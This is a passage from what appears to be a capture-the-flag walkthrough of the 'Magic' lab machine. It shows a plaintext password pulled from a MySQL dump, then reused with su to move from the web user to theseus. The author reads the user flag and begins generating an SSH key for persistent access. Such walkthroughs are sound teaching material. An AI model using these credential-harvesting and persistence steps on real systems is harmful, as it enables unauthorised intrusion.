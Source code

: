 ```ruby
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
/*!40000 ALTER TABLE `login` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;

/*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
/*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
/*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
/*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;

-- Dump completed on 2020-08-21 23:10:57
```

```bash
User:Theseus
Pass:Th3s3usW4sK1ng
```

From the dump, we find credential for Theseus. Using switch user command, we can switch to Theseus.

```css
www-data@ubuntu:/var/www/Magic$ su - theseus
su - theseus
Password: Th3s3usW4sK1ng

theseus@ubuntu:~$
```

## User Flag

```ruby
theseus@ubuntu:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
theseus@ubuntu:~$ cat user.txt
d4e98c72007d8e34----------------
```

The current shell is bit unstable. Lets login via SSH.

```bash
strawhack@linux:~/Desktop$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/strawhack/.ssh/id_rsa): theseus
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in theseus
Your public key has been saved in theseus.pub
The key fingerprint is:
SHA256:cS1yfDBgzHmOtvpGvG7Jm6XDwmtnenxrjyAPqhd1RbY strawhack@linux
The key's randomart image is:
+---[RSA 3072]----+
|       oo+=      |
|       .+oo=     |
|        o=E o    |
|      . +=.o     |
|     . +S.       |
|    .   +        |
|     oo*.o.      |
|    ..=+&=o.     |
|  .o..o%B=oo.    |
+----[SHA256]-----+
```

